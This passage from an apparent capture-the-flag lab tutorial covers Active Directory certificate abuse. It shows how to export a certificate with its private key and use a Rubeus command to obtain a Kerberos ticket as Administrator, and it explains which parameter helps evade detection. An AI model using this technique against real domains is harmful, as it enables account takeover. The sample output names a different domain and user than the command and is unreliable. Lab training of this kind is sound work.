 Your additional information should look something like this:

![MMC Certificates](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/20cd4305f7a15c9ceb3ddd8c96088b09.png)

Once you are happy with it, click **Apply** and **OK**. Then, select the certificate and click **Enroll**. You should be able to see your certificate:

![MMC Certificates](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/6bed1474264e87f3be91e028a06b317b.png)

The last step is to export our certificate with the private key:

1. Right-click on the certificate and select **All Tasks**->**Export...**
2. Click **Next**, select **Yes, export the private key**, and click **Next**.
3. Click **Next**, then set a password for the certificate since the private key cannot be exported without a password.
4. Click **Next** and select a location to store the certificate.
5. Click **Next** and finally click **Finish.**

### User Impersonation through a Certificate

Now we can finally impersonate a user. To perform this, two steps are required:

* Use the certificate to request a Kerberos ticket-granting ticket (TGT)
* Load the Kerberos TGT into your hacking platform of choice

For the first step, we will be using [Rubeus](https://github.com/GhostPack/Rubeus). An already compiled version is available in the `C:\Tools\` directory. Open a command prompt window and navigate to this directory. We will use the following command to request the TGT:

```
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<path to certificate> /password:<certificate file password> /outfile:<name of file to write TGT to> /domain:za.tryhackme.loc /dc:<IP of domain controller>
```

Let's break down the parameters:

* **/user** - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated
* **/enctype** -This specifies the encryption type for the ticket. Setting this is important for evasion, since the default encryption algorithm is weak, which would result in an overpass-the-hash alert
* **/certificate** - Path to the certificate we have generated
* **/password** - The password for our certificate file
* **/outfile** - The file where our TGT will be output to
* **/domain** - The FQDN of the domain we are currently attacking
* **/dc** - The IP of the domain controller which we are requesting the TGT from. Usually it is best to select a DC that has a CA service running

Once we execute the command, we should receive our TGT:

```shell-session
C:\THMTools> .\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:12.31.1.101
          ______        _
         (_____ \      | |
          _____) )_   _| |__  _____ _   _  ___
         |  __  /| | | |  _ \| ___ | | | |/___)
         | |  \ \| |_| | |_) ) ____| |_| |___ |
         |_|   |_|____/|____/|_____)____/(___/
       
         v2.0.0
       
       [*] Action: Ask TGT
       
       [*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=vulncert
       [*] Building AS-REQ (w/ PKINIT preauth) for: 'lunar.eruca.com\svc.gitlab'
       [+] TGT request successful!
       [*] base64(ticket.kirbi):
```

[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt